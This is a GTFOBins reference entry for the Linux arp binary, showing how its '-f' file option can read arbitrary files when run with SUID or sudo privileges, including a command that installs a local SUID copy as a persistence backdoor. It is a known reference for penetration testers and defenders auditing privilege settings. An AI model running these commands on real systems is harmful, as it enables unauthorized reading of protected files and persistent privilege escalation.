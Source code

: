 # GTFOBin: arp

The read file content is corrupted by error prints.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
arp -v -f "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which arp) .

LFILE=file_to_read
./arp -v -f "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo arp -v -f "$LFILE"
```